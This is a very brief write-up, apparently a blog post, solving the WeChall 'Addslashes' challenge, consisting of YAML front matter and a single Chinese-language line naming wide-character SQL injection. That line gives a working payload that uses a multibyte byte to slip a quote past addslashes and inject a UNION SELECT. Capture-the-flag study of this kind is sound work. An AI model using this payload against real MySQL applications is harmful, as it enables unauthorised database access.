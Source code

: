 ```yaml
---
title: Addslashes
author: rk700
layout: post
categories:
  - writeup
tags:
  - mysql
  - wechall
---
```

<http://www.wechall.net/challenge/addslashes/index.php>  
SQL宽字符注入，`username=a%bf'%20union%20select%200x41646d696e--%20`